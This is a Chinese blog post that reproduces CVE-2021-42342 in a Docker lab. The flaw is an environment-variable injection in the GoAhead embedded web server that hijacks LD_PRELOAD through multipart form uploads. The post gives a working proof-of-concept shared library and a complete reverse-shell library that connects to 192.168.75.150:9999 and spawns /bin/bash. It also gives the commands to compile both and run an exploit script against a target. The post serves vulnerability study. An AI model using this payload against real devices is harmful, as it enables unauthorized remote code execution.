


# GoAhead Server 环境变量注入（CVE-2021-42342） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16275592.html`](https://www.cnblogs.com/NoCirc1e/p/16275592.html)

GoAhead 是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的 Web Server，多用于嵌入式系统、智能设备。其支持运行 ASP、Javascript 和标准的 CGI 程序。

这个漏洞是[CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562)漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的 multipart 表单控制目标服务器的环境变量，进而劫持`LD_PRELOAD`来执行任意代码。

参考链接：

*   [`github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562`](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562)
*   [`ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/`](https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/)
*   [`mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg`](https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg)

## 漏洞环境

执行如下命令启动 GoAhead 5.1.4：

```
docker-compose up -d
```



启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到 Hello 页面，即为 CGI 执行的结果。


## 漏洞复现

（1）打印测试内容

编写打印测试文件的 poc 代码如下（poc.c）：

```
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

```
gcc -s -shared -fPIC ./poc.c -o payload.so
```

然后，我们使用[这个脚本](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py)来发送恶意数据包，复现漏洞：

```
python3 poc.py http://target-ip:8080/cgi-bin/index payload.so
```

可见，我们在动态链接库中编写的劫持代码已经被成功执行：



（2）反弹 Shell

反弹 shell 的 poc 代码如下（shell.c）：

```
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="192.168.75.150";
uint32_t server_port=9999;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

使用如下命令编译以上代码：

```
gcc -s -shared -fPIC ./shell.c -o shell.so
```

在对应的 ip 端口上开启监听

执行 payload，此时脚本可能会报错，但没有影响

```
python3 poc.py http://target-ip:8080/cgi-bin/index shell.so
```

成功触发 RCE：

